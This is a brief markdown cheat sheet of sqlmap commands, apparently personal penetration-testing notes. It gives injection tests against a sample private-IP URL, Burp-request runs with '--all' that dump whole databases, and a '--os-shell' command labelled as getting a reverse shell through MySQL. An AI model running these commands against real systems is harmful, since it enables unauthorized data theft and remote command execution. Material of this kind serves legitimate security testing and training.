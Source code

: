 # sqlmap

## level and risk options
--level 5
--risk 3

## search string response on site for successful injection
--string "successful injection text here"

## Test All (Default Settings)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch
```

## Test All (Default Settings, High Stress)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

## with burp request Test All (Default Settings)
```bash
--all -r post_request.txt --batch 
```

## with burp request Test All (Default Settings, High Stress)
```bash
--all -r post_request.txt --batch --level=5 --risk=3
```

## with burp request Get A Reverse Shell (MySQL)
```bash
-r post_request.txt --dbms "mysql" --os-shell
```
